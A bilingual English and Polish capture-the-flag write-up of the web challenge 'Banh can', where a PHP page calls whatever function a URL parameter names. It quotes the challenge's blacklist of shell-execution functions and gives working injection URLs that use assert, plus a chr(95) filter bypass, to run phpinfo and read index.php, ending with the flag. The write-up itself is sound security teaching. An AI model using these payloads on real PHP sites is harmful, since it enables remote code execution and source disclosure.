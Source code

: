 # Banh can (web 100)

###ENG
[PL](#pl-version)

In the task we get a webpage with a form.
We can input some data in the form and submit it, which causes redirection to:

`http://web04.grandprix.whitehatvn.com/index.php?hello=our_input`

And it prints out `Hello our_input`.

There is also a hint in the source code that we can try calling function `hint`.

After a while we figure out that the parameter name is the function name and the value is string argument.
This means we can go to:

`http://web04.grandprix.whitehatvn.com/index.php?hint`

To call hint function.
This functions shows us that there is a blacklist for some inputs:

`$blacklist = array("system", "passthru", "exec", "read", "open", "eval", "backtick", "`", "_");`

We quickly notice that there is one function missing here, which enables us to call any PHP code from a string parameter - `assert`.

So we can call:

`http://web04.grandprix.whitehatvn.com/index.php?assert=phpinfo()`

And it shows us phpinfo, with list of all disabled PHP functions.
It seems there is no way of getting a shell, but maybe we don't need it.
We decide to read index.php just to see what exactly we're dealing with.

While `_` is blacklisted, we can just concatenate string with `chr(95)` instead so we call:

`http://web04.grandprix.whitehatvn.com/index.php?assert=assert(%27print(file%27.chr(95).%27get%27.chr(95).%27contents(%22index.php%22))%27)`

in order to call `assert('file_get_contents("index.php")')`

and the flag is in the source code: `WhiteHat{36b32e1f18a0da66de3b9dd29db947155b35320f}`

###PL version

W zadaniu dostajemy stronę internetową z formularzem.
Możemy wpisać dane do formularz i po wysłaniu jesteśmy pod adresem:

`http://web04.grandprix.whitehatvn.com/index.php?hello=our_input`

I widzimy `Hello our_input`

W źródle strony jest też wskazówka żeby wywołać funkcje `hint`.

Po pewnym czasie doszliśmy do wniosku że nazwa parametru to nazwa funkcji a wartość to argument jako string.
To oznacza że możemy przejść pod:

`http://web04.grandprix.whitehatvn.com/index.php?hint`

aby wywołać funkcje 1hint()`.
Ta funkcja pokazuje nam, że pewne wejścia są blacklistowane:

`$blacklist = array("system", "passthru", "exec", "read", "open", "eval", "backtick", "`", "_");`

Szybko zauważamy że brakuje tutaj jednej funkcji, która pozwala wykonać dowolny kod PHP z parametru będącego stringiem - `assert`.

Możemy więc wołać:

`http://web04.grandprix.whitehatvn.com/index.php?assert=phpinfo()`

A to pokaże nam wynik wywołania phpinfo, z listą funkcji PHP które są wyłączone.
Wygląda na to że nie ma szans na zdobycie shella, ale może go nie potrzebujemy.
Postanowiliśmy pobrać index.php żeby sprawdzić co dokładnie dzieje się w skrypcie.

Co prawda `_` jest na blackliście, ale możemy po prostu skleić sobie stringa z `chr(95)` zamiast tego, więc wołamy:

`http://web04.grandprix.whitehatvn.com/index.php?assert=assert(%27print(file%27.chr(95).%27get%27.chr(95).%27contents(%22index.php%22))%27)`

Aby wywołać `assert('file_get_contents("index.php")')`

I w źródle jest już flaga: `WhiteHat{36b32e1f18a0da66de3b9dd29db947155b35320f}`
